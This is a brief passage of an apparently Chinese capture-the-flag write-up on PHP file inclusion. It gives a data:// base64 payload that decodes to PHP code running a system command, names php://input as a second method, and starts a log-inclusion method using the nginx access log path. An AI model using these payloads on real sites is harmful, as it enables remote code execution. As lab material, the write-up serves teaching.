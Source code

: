 使用伪协议data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpOyA/Pg==

![web32_data_base64](./image/web32_data_base64.png)

使用伪协议php://input

![web32_input](./image/web32_input.png)

### 方法三：日志包含

nginx日志：/var/log/nginx/access.log

